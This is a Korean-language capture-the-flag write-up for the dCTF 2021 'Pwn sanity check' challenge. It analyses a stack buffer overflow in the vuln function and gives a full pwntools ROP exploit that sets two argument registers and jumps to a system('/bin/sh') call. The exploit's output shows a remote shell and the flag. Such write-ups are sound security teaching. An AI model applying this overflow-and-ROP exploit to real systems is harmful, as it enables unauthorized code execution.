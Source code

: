 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-19-23-10.png)

첨부파일

[pwn_sanity_check.zip](https://github.com/2jinu/CTFnWargame/raw/main/CTF/%5B2021%5D%20dCTF/Pwn%20sanity%20check/file/pwn_sanity_check.zip)


# **Write-Up**

main을 확인해보면 0x4007A4에 vuln이라는 함수를 호출한다.

![](images/2022-05-18-19-23-25.png)

vuln함수는 rax에 rbp+s(-0x40)만큼 공간을 확보하고 0x100만큼 문자를 받아들여 overflow가 터진다.

0x40075C에서 rbp+var_4(-0x04)의 값과 0xDEADC0DE와 비교하는 조건문이 있고, 일치한다면 0x400776의 shell이라는 함수를 호출한다.

![](images/2022-05-18-19-23-35.png)

하지만 shell함수로 따라 들어가면 flag를 획득할 만한 무엇인가가 없다.

![](images/2022-05-18-19-23-42.png)

0x400697에서 /bin/sh을 넣어 system함수를 콜하는 부분이 있고, edi, esi값을 rbp+var_4(-0x04), rbp+var_8(-0x08)에 넣고, 이를 0xDEADBEEF와 0x1337C0DE와 비교하여 일치하여야 한다.

![](images/2022-05-18-19-23-51.png)

ROP기법을 사용하여 exploit코드를 작성하면 다음과 같다.

```py
from pwn import *
context(arch='amd64')
p = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)

#p = process('./pwn_sanity_check')
e = ELF('./pwn_sanity_check', checksec=False)
r = ROP(e)

pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_esi = 0x00400811

payload = b''
payload += b'\x00'*(0x40 + 0x08)
payload += p64(pop_rdi)
payload += p64(0xDEADBEEF)
payload += p64(pop_esi)
payload += p64(0x1337C0DE)
payload += b'\x00'*0x08
payload += p64(0x400697)

p.recvuntil('joke')
p.sendline(payload)
p.interactive()

[Output]
root@ubuntu:~# [+] Opening connection to dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io on port 7480: Done
[*] Loaded 14 cached gadgets for './pwn_sanity_check'
[*] Switching to interactive mode

will this work?
you made it to win land, no free handouts this time, try harder
one down, one to go!
2/2 bro good job
$ ls -al
total 32
drwxr-xr-x 1 root  root  4096 May 14 01:20 .
drwxr-xr-x 1 root  root  4096 May 14 01:21 ..
-rw-r--r-- 1 root  root    19 May 14 01:20 flag.txt
-rwxr-xr-x 1 pilot pilot 8632 May 14 01:20 pwn_sanity_check
-rw-r--r-- 1 root  root   226 May 14 01:20 startService.sh
################ startService.sh ################
#!/bin/bash
chown pilot:pilot /app/pwn_sanity_check
chmod +x /app/pwn_sanity_check
while true; do
    su pilot -c 'timeout -k 30s 1d socat TCP-LISTEN:7480,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./pwn_sanity_check"'
done
################################################
$ cat flag.txt
dctf{Ju5t_m0v3_0n}
```


# **FLAG**

**dctf{Ju5t_m0v3_0n}**